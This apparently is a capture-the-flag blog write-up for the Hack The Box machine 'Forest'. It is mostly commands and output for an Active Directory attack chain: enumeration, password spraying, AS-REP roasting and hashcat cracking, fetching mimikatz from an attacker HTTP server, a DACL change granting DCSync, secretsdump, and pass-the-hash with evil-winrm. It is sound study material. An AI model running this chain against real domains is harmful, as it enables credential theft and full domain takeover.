 ```yaml
---
layout: post
title: "Forest"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oA nmap/forest 10.129.118.84

result:
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-08 16:47:45Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-12-08T08:47:55-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2024-12-08T16:47:52
|_  start_date: 2024-12-08T16:46:12
|_clock-skew: mean: 2h46m52s, deviation: 4h37m10s, median: 6m50s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

We find the domain name to be htb.local and the FQDN is forest.htb.local

DNS is open, let’s try zone transfer the reverse DNS

```bash
dig @10.129.118.84 -x 10.129.118.84

#also the nslookup method
nslookup
server 10.129.118.84
10.129.118.84
127.0.0.1

#try zone transfer
dig axfr htb.local @10.129.118.84

#no response
```

Let’s try smb server.

```bash
#Null authentication
smbclient -N -L 10.129.118.84  #noresponse

#Let's try CME invalid users
cme smb 10.129.118.85 -u 'fasf' -p ''

#Tried all methods and still got nothing
```

Let’s try to query LDAP

```bash
#We can check the domain name
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local"

#Let's find all the SAM account names so we can do a password spraying attack
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

#now save the output to a file removing all the machine account names
result:
sebastien
lucinda
andy
mark
santi
```

We can try rpc  null authentication to get the users list:

```bash
rpcclient -U '' -N 10.129.118.84
enumdomusers

result:
svc-alfresco

#we get an extra user we have not seen before
```

Let’s find out the password policy:

```bash
cme smb 10.129.118.84 -u '' -p '' --pass-pol

result:
SMB         10.129.118.84   445    FOREST           Minimum password length: 7
SMB         10.129.118.84   445    FOREST           Password history length: 24
SMB         10.129.118.84   445    FOREST           Maximum password age: Not Set
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Password Complexity Flags: 000000
SMB         10.129.118.84   445    FOREST               Domain Refuse Password Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Store Cleartext: 0
SMB         10.129.118.84   445    FOREST               Domain Password Lockout Admins: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Clear Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Anon Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Complex: 0
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.129.118.84   445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.129.118.84   445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.129.118.84   445    FOREST           Account Lockout Threshold: None
SMB         10.129.118.84   445    FOREST           Forced Log off Time: Not Set
```

From the password policy, we can see there are no lockout policy in place, so we can create a wordlist to bruteforce weak passwords. First create a wordlist with all the months, seasons and domain name, secret and common passwords like P@ssw0rd. Now add the current year or the year before:

```bash
for i in $(cat common-password.txt); do echo $i; echo ${i}2019; echo ${i}2020; done > p
mv p common-password.txt
for i in $(cat common-password.txt); do echo $i; echo ${i}\!; done > p
mv p common-password.txt
```

Now we can use hashcat rule files to transform the password list:

```bash
hashcat --stdout common-password.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7' > common-password-rule.txt

```

Now we can begin the password attack in the background:

```bash
cme smb 10.129.118.84 -u users_ldap.txt -p common-password-rule.txt 
```

We can also user GetNPUsers to see if we get a TGT ticket and try to crack that:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.118.84 -no-pass -usersfile users_ldap.txt

result:
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f9fa9e79d8456bbda9e9521878ac6979$dc772faf5ecd603a158634c9f14808dc432d83d5ea40c48af44a4a354732fa99e9c2e57232b797f7db6848ff91801addd8e105567e3dc268bdc81768689f45ea47bb471ea212b673b75b6b280af8f8f8db0105dc0f989c09ad1b60e5ef4a09823ca9ec684ee48e8fa86241edb722918bb7bdd2533421bf6405e536c1e126b97eb5f4d18f81664c92873da4b8691ccd23f6367c34f37c8c2ec2b5c9e322c0efd7afbedc45048bfe07eeed7290b9b01b8ecd1b94b28865f4c278aaa1a23166b205c1f97a7e81b501ef68cff346fd21de2fce859035f169789fea9c283bd24d5c85bcbcf5f21ef3
```

Let’s try and crack that in hashcat:

```bash
hashcat.exe -m 18200 wordlists\admin_hash.txt wordlists\rockyou.txt --opencl-device-types 2 -w 3
```

We have cracked the password for user svc-alfresco. Now we can check the validity of the password:

```bash
cme smb 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'
cme winrm 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'

result:
both returned OK
```

We now have access to svc-alfresco. Now we have a valid user, we can evil-winrm log onto the user and we can also map privileges of the user with bloodhound.

```bash
mkdir bloodhound_output
bloodhound-python -u svc-alfresco -p 's3rvice' -ns 10.129.118.84 -d htb.local -c all

sudo neo4j start

bloodhound   #neo4j:neo4j
```

To delete old data, query this

```bash
MATCH (n) DETACH DELETE n;
```

Now start bloodhound and find user svc-alfresco and set it as starting node and mark user as owned.

Then we go to analysis and click on shortest path to domain admins from owned principal we get a mapped out route to domain admin. It’s recommending us to use mimikatz then dcsync. Let’s do that. First transfer mimikatz to target:

```bash
python3 -m http.server 8001

target:
iwr http://10.10.14.132:8001/mimikatz.exe -OutFile mimikatz.exe
```

```bash
.\mimikatz.exe
privilege::debug
#sekurlsa::logonpasswords

lsadump::dcsync /domain:testlab.local /user:Administrator
```

mimikatz don’t work on 

![image.png](/assets/forest/forest-image.png)

The group Exchange Windows Permissions has WriteDacl over htb.local, which allows dcsync.

Let’s first add ourself to the group:

```bash
On attack host:
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S "FOREST.htb.local"

OR on evil-winrm:
net group "Exchange Windows Permissions" svc-alfresco /add /domain

#verify our group memebership:
net group "Exchange Windows Permissions" /domain

#Then quickly (as the service automatically deletes group membership) on attack host:

impacket-dacledit htb.local/svc-alfresco:s3rvice -action write -rights DCSync -principal svc-alfresco -target-dn 'DC=htb,DC=local' -dc-ip 10.129.118.84

#we should get a:
[*] DACL backed up to dacledit-20241208-200009.bak
[*] DACL modified successfully!

```

Now we can use secretsdump from attack host:

```bash
impacket-secretsdump -outputfile htb_hashes -just-dc htb.local/svc-alfresco@10.129.118.84 
```

We now have the hashes including Administrator’s NT hash.

Now, let’s use evil-winrm to log on.

```bash
evil-winrm -i 10.129.118.84 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

- Enumerate SMB, DNS
- ldapsearch to find users
- enum4linux
- rpcclient, enumdomusers find users
- GetNPUsers to get KRTGT hash
- hashcat -m 18200
- bloodhound to map quickest route to domain admin
- change group membership
- dacledit to grant dcsync rights
- DCSync
- secretsdump to get NT hashes